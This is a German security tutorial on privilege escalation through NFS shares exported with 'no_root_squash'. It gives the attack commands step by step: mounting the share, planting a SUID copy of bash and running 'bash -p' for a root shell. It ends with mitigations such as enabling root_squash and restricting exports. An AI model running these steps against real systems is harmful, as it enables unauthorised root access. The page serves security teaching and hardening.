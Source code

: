 # NFS (Network File System)

**Ziel**: Missbrauch falsch konfigurierter NFS-Freigaben zur lokalen Privilegieneskalation bis hin zur Root-Shell über SUID-Binaries.

### **Einleitung**

Das Network File System (NFS) erlaubt die Freigabe von Dateisystemen über das Netzwerk. Bei unsicherer Konfiguration – insbesondere wenn `root_squash` deaktiviert ist oder Schreibrechte auf sensible Verzeichnisse bestehen – kann ein Angreifer Root-Rechte auf dem Zielsystem erlangen.

Die Option `root_squash` sorgt normalerweise dafür, dass Root-Anfragen auf dem Client als anonymer Benutzer (`nfsnobody`) behandelt werden. Ist diese Option jedoch deaktiviert, können Root-Operationen direkt auf dem NFS-Server ausgeführt werden – ein schwerwiegender Sicherheitsfehler.

***

### **Ablauf eines typischen NFS-Angriffs**

#### **1. Erkennung zugänglicher NFS-Freigaben**

Der Angreifer identifiziert exportierte Dateisysteme des Servers mit:

```bash
showmount -e <nfs-server-ip>
```

Beispielausgabe:

```
Export list for 192.168.1.100:
/export *(rw,sync,no_root_squash)
```

**Achtung**: `no_root_squash` weist auf eine potenziell ausnutzbare Konfiguration hin.

***

#### **2. Mounten der NFS-Freigabe**

Der Angreifer mountet die Freigabe lokal:

```bash
sudo mount -t nfs <nfs-server-ip>:/export /mnt/nfs
cd /mnt/nfs
```

***

#### **3. Vorbereitung einer SUID-fähigen Binary**

Um später Root-Rechte zu erlangen, kopiert der Angreifer eine eigene Bash-Binary auf die gemountete Freigabe:

```bash
cp /bin/bash ./bash
```

> Alternativ: Kompilierung einer kleinen C-Shell mit Root-UID oder Verwendung einer vorbereiteten Payload-Binary.

***

#### **4. Setzen des SUID-Bits (wenn `no_root_squash` aktiv)**

Wird der NFS-Export ohne `root_squash` bereitgestellt, kann der Angreifer lokal als Root auf die Freigabe zugreifen und eine Datei mit Root-Rechten und gesetztem SUID-Bit ablegen:

```bash
chmod +s bash
```

Ergebnis:

```bash
ls -l bash
-rwsr-xr-x 1 root root 1168776 Jun  3 10:42 bash
```

***

#### **5. Login auf dem Zielsystem**

Der Angreifer loggt sich mit einem Benutzerkonto (z. B. über SSH) auf dem NFS-Server ein:

```bash
ssh user@<nfs-server-ip>
```

***

#### **6. Ausführen der SUID-Bash zur Erlangung einer Root-Shell**

Die zuvor platzierte Binary kann auf dem Server ausgeführt werden:

```bash
/mnt/nfs/bash -p
```

Option `-p`: Bewahrt effektive Benutzerrechte (inkl. Root) bei SUID-Ausführung.

Ergebnis: Root-Shell auf dem System.

***

### **Sicherheitsbewertung & Empfehlungen**

| Risiko         | Hoch (Privilegieneskalation bis Root)              |
| -------------- | -------------------------------------------------- |
| Angriffsvektor | Lokales oder netzwerkweites Mounten                |
| Voraussetzung  | Schreibzugriff auf NFS-Export mit `no_root_squash` |

#### **Empfohlene Schutzmaßnahmen**

*   **Immer `root_squash` aktivieren**:\
    In `/etc/exports`:

    ```
    /export *(rw,sync,root_squash)
    ```
*   **Exporte restriktiv konfigurieren**: Nur bestimmten IPs erlauben:

    ```
    /export 192.168.1.0/24(rw,sync,root_squash)
    ```
* **Dateisystemberechtigungen korrekt setzen** (keine SUID-Binaries auf NFS)
* **Firewall-Regeln** zum Schutz vor unautorisierten Mount-Anfragen
* **Monitoring & Logging** aktivieren (z. B. durch `auditd`)

***

### **Zusätzliche Hinweise**

* `no_root_squash` wird teils aus Bequemlichkeit in Testumgebungen verwendet – sollte in Produktivumgebungen _strikt_ vermieden werden.
* Ein solcher Angriff ist besonders kritisch in Multi-Tenant-Systemen und Cloud-Umgebungen mit geteiltem Storage.
